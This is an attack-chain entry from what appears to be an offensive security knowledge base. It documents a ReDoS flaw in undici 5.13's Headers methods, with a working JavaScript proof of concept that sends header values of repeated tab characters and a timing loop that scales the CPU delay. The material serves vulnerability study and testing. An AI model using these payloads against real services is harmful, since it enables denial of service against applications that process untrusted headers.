

---
tags:
  - redos
  - dos
  - undici
  - node.js
  - headers
type: attack_chain
tools:
  - '[[tools/npm]]'
  - '[[tools/Node.js]]'
  - '[[tools/undici]]'
tactics:
  - '[[Impact]]'
commands:
  - '[[commands/npm-install-undici-vulnerable]]'
  - '[[commands/basic-redos-exploit-js]]'
  - '[[commands/scaled-redos-test-js]]'
platforms:
  - Node.js
  - JavaScript
complexity: medium
procedures:
  - '[[procedures/Install-Vulnerable-Undici-Version]]'
  - '[[procedures/Trigger-ReDoS-with-Malicious-Header]]'
  - '[[procedures/Measure-and-Scale-DoS-Impact]]'
step_count: 3
techniques:
  - '[[Endpoint Denial of Service]]'
description: >-
  Multi-stage demonstration of exploiting a Regular Expression Denial of Service
  (ReDoS) vulnerability in the undici library's Headers implementation, causing
  high CPU consumption and application delays via crafted header inputs.
skill_level: intermediate
impact_level: high
id: 6ac9f578-aea2-4ba2-b88b-d998ce926df0
created_at: '2025-12-14T17:26:36.613Z'
updated_at: '2025-12-14T17:26:36.613Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Impact]]'
mitre_techniques:
  - '[[Endpoint Denial of Service]]'
---
# ReDoS in Undici Headers Leading to Node.js Denial of Service

## Overview

This attack chain exploits a ReDoS vulnerability in the undici library (version 5.13), specifically in the Headers.set() and Headers.append() methods. The flaw stems from an inefficient regular expression in the headerValueNormalize() function (lib/fetch/headers.js, lines 18-30), which suffers from catastrophic backtracking when processing inputs with repeated tab characters (\t). By crafting malicious header values, an attacker can cause significant CPU consumption, delaying Node.js application execution by seconds (e.g., up to 3 seconds for a 50,000-character string). This can immobilize services processing untrusted HTTP headers, such as web servers or API handlers using undici for fetch operations.

The chain demonstrates setup, exploitation, and impact measurement, assuming a Node.js environment where untrusted inputs reach the Headers class.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/npm]]
- [[tools/Node.js]]
- [[tools/undici]]

### Target Environment

- Node.js runtime (any version compatible with undici 5.13)
- No specific services or ports required; runs locally
- Access to npm for package installation

### Initial Access Requirements

- Local development environment or server with Node.js installed
- No network access or credentials needed; focuses on library exploitation

## Detailed Attack Procedures

### Step 1: Setup Vulnerable Environment
procedure: [[procedures/Install-Vulnerable-Undici-Version]]

**Objective**: Install the vulnerable version of undici to prepare the environment for ReDoS exploitation.

**Instructions**: Use [[commands/npm-install-undici-vulnerable]] to install undici@5.13, which contains the flawed Headers implementation in lib/fetch/headers.js.

```bash
npm install undici@5.13
```

**Expected Output**: Installation logs confirming undici@5.13 is added to node_modules and package.json.

**Success Indicators**:
- undici version 5.13 installed successfully
- No errors in npm output

### Step 2: Trigger ReDoS Exploitation
procedure: [[procedures/Trigger-ReDoS-with-Malicious-Header]]

**Objective**: Create a malicious header input and invoke Headers.append() or set() to trigger catastrophic backtracking in the regex.

**Instructions**: Require undici, instantiate Headers, and prepare an attack string with 50,000 repeated tabs. Then execute [[commands/basic-redos-exploit-js]] to append the value and observe the delay.

```javascript
const { Headers } = require("undici");
const headers = new Headers();
const attack = "a" + "\t".repeat(50_000) + "\ta";
const start = performance.now();
headers.append("foo", attack);
console.log(`${performance.now() - start}ms`);
```

**Expected Output**: Console log showing a delay of approximately 2932ms or higher, indicating CPU-intensive backtracking.

**Success Indicators**:
- Significant execution time (>1 second) for the append operation
- No crashes, but observable delay in application response

### Step 3: Measure and Scale DoS Impact
procedure: [[procedures/Measure-and-Scale-DoS-Impact]]

**Objective**: Quantify the vulnerability by testing with varying input lengths to demonstrate quadratic time complexity and escalating delays.

**Instructions**: Run [[commands/scaled-redos-test-js]] to loop through attack strings from 0 to 50,000 tabs in 10,000 increments, timing both set() and append() methods.

```javascript
console.log("Headers.set()");
for(let i = 0; i <= 5; i++) {
  const headers = new Headers();
  const attack = "a" + "\t".repeat(i * 10_000) + "\ta";
  const start = performance.now();
  headers.set("foo", attack);
  console.log(`${attack.length}: ${performance.now() - start}ms`);
}
console.log("\nHeaders.append()");
for(let i = 0; i <= 5; i++) {
  const headers = new Headers();
  const attack = "a" + "\t".repeat(i * 10_000) + "\ta";
  const start = performance.now();
  headers.append("foo", attack);
  console.log(`${attack.length}: ${performance.now() - start}ms`);
}
```

**Expected Output**: Escalating times, e.g., '3: 0.4768ms' to '50003: 2645.8285ms' for set(), and similar for append(), showing DoS severity.

**Success Indicators**:
- Times increase quadratically with input length
- Delays exceed 2 seconds for large inputs, confirming ReDoS

## Attack Chain Summary

### Key Achievements

1. Successful installation of vulnerable undici library
2. Triggered ReDoS causing measurable CPU delays in header processing
3. Demonstrated scalable impact, highlighting potential for application immobilization

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Endpoint Denial of Service]]

### MITRE ATT&CK Tactics

- [[Impact]]

---

*Last updated: 2023-10-01T00:00:00Z*
